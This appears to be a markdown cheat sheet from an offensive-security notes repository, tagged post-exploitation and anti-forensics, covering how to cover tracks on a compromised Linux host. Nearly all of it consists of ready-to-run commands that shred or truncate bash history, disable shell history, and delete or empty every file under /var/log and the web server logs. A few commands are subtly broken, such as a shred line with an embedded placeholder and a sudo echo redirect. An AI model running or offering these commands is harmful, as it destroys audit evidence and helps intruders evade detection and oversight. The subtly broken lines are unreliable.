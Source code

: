 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - defense-evasion
  - anti-forensics
  - T1070-003
  - T1070-004
  - linux
---
```

# Living off the Land

## 01 - Command History

Clear history commands

```
$ shred -u <wipesync | wipe | unlink> -zxfvn 5 ~/.bash_history && cat /dev/null > ~/.bash_history && history -cw

$ truncate -s 0 ~/.bash_history

$ dd status=none bs=1k count=$(du -sk ~/.bash_history | cut -f 1) if=/dev/urandom > ~/.bash_history && rm -f ~/.bash_history

$ cat /dev/null > ~/.bash_history && history -cw
```

Disable history option.

```
$ set +o history

$ set -o history

$ shopt -ou history

$ shopt -uo history
```

Wipe the logs

```
# for log in $(find /var/log -type f); do shred -uzxfvn 5 $log; done

# for log in $(find /var/log -type f); do cat /dev/null > $log; done

# for log in $(find /var/log -type f); do rm -f $log; done

# for log in $(find /var/log -type f); do echo '' > $log; done

# for log in $(find /var/log -type f); do > $log; done
```

## 02 - HTTP Webserver

```
$ sudo echo "" > /var/log/django.log

$ sudo echo "" > /var/log/apache2/error_log
```

TODO: Research about `truncate -s 0 file.log`.

---
## References

### Source Repositories

- [hackerschoice: THC's favourite Tips, Tricks & Hacks (Cheat Sheet)](https://github.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet)

### Null Byte

- [Null Byte: Clear the Logs & Bash History on Hacked Linux Systems to Cover Your Tracks & Remain Undetected](https://null-byte.wonderhowto.com/how-to/clear-logs-bash-history-hacked-linux-systems-cover-your-tracks-remain-undetected-0244768/)